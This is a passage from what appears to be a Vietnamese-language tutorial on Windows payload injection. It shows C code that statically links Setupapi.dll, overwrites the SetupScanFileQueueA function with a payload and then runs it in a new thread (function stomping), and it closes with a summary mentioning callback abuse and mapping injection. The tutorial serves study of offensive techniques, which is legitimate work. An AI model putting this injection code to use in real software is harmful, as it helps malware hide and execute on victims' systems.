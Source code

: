Thay vì sử dụng `LoadLibrary` và `GetProcAddress`, bạn có thể liên kết tĩnh một DLL vào binary của bạn và chèn một payload vào trong đó.

```c
#pragma comment (lib, "Setupapi.lib") // Thêm "setupapi.dll" vào Import Address Table
```

```c
int main() {
    HANDLE hThread = NULL;
    printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();

    if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) {
        return -1;
    }

    printf("[+] DONE \n");

    printf("[#] Press <Enter> To Run The Payload ... ");
    getchar();

    hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
    if (hThread != NULL)
        WaitForSingleObject(hThread, INFINITE);

    printf("[#] Press <Enter> To Quit ... ");
    getchar();

    return 0;
}
```
### Kết Luận

Trong bài viết này, chúng ta đã khám phá cách mà callback functions hoạt động trong nội bộ Windows và cách chúng có thể bị lạm dụng để thực thi payload. Chúng ta cũng đã thảo luận các kỹ thuật như mapping injection và function stomping, là các phương pháp mà kẻ tấn công có thể sử dụng để tiêm payload vào tiến trình từ xa hoặc cục bộ.